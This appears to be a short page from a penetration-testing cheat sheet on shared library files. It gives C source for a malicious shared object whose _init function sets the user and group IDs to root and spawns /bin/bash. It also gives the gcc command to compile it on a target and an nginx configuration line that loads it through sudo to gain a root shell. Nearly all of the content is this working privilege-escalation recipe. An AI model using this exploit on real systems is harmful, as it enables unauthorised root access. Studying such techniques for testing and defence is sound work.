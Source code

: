 # Shared Library Files

Shared library utilities:

```bash
# Print shared objects required by a binary or shared object
ldd /bin/ls
```

Create a malicious shared library

shell.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

We compile it on the target

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
```

Examples:

```bash
# nginx (add the following line to a copied nginx.conf file in /tmp/nginx.conf)
load_module /tmp/shell.so;
# then run the following command
sudo nginx -c /tmp/nginx.conf
```
